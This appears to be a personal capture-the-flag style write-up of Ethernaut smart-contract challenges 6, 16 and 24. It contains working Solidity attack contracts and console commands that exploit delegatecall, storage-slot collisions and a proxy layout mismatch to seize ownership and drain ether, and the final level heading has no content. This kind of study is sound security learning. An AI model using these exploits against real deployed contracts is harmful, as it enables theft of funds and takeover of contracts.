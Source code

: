 ## Ethernaut6 
    -Send a transaction to Delegation, triggering the fallback() 
    -The data "0xdd365b8b" == "pwn()", so it will trigget the pwn() function in the Delegate contract
    and it will change the owner state variable of Delegation contract
`await contract.sendTransaction({from: player, to: instance, data: "0xdd365b8b"})`

## Ethernaut 16

    -From Preservation contrat we will call setFirstTime(uint _timeStamp) function
    -This function will do a delegatecall to contract Library{} which will update the slot#0 variable in Preservation contract
    -So we will change the slot#0 in Preservation for a new attacker contract
    -So the second time we call the setFirstTime(uint _timeStamp), it won't call the Library contract, it will call our attacker contract
    -and our attacker contract will update the slot#2 on Preservation contract which is the owner()
```
contract Attacker{
    //same layout of Preservation contract
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 
    Preservation public target;

    constructor(Preservation _address){
        target = _address;
    }

    //1st step, change the slot#0 in Preservation-->   address public timeZone1Library;
    function setTimeZone1LibraryToAttackerContract() public {
        uint256 _addressUint = uint160(address(this));
        target.setFirstTime(_addressUint);
    }

    //2nd step, create a function that will update the slot#2
    //it must have the same signature "setTime(uint _time)"
    function setTime(uint _time) public {
        owner = msg.sender;
    }

    //NOTE: Instead of calling the setFirstTime(uint) from remix
    //I sent a transaction from the console:
    //await contract.setFirstTime(123)
}
```

## Ethernaut 24

```
interface IWallet{
    function admin() external view returns(address);
    function proposeNewAdmin(address _newAdmin) external;
    function approveNewAdmin(address _expectedAdmin) external;
    function setMaxBalance(uint256 _maxBalance) external;
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
    function multicall(bytes[] calldata data) external payable;
}
```

    //vulnerability: layout of state variables are different in the proxy and the implementation
    //1 --> proposeNewAdmin in the proxy to become a
    // PuzzleProxy --> "pendingAdmin" == slot#0 
    // PuzzleWallet --> "owner" == slot#0
    //2 --> after being the pendingAdmin, in the implementation we are the "owner".
    //3 --> call addToWhitelist() and put my address in the whitelist mapping
    //4 --> Create 2 arrays to call multicall() --> [deposit(), multicall([deposit()])]
    //5 --> call multicall() sending the array _dataToCall with msg.value 0.001
    //5 --> because we call deposit() twice, our balance[msg.sender] == 0.002
    //6 --> send to msg.sender the balance of the proxy (0.002 ether)
    //7 --> setMaxBalance() will modify (maxBalance) on the implementation (slot#1)
    //7 --> and (admin), slot#1 in proxy
    //7 --> so we need to pass our address as a uint256 to update the slot#1

```
contract Attack{
    //_target = "0xf4921938D75189dc103A9297ce3A00C549B625F5"    
 
    constructor(IWallet _target) payable {
        _target.proposeNewAdmin(address(this)); //1
        _target.addToWhitelist(address(this)); //2 & 3
        bytes[] memory _depositSignature = new bytes[](1);//4
        _depositSignature[0] = abi.encodeWithSignature("deposit()");//4
        bytes[] memory _dataToCall = new bytes[](2); //4
        _dataToCall[0] = _depositSignature[0]; //4
        _dataToCall[1] = abi.encodeWithSelector(_target.multicall.selector, _depositSignature); //4
        _target.multicall{value: 0.001 ether}(_dataToCall); //5
        _target.execute(msg.sender, 0.002 ether, ""); //6
        uint256 _myAddress = uint256(uint160(bytes20(msg.sender))); //7 parseWallet to uint
        _target.setMaxBalance(_myAddress); //7
        require(_target.admin() == msg.sender,"Failed hacking"); 
    }
}
```

## Ethernaut 25 (proxy of the proxy)
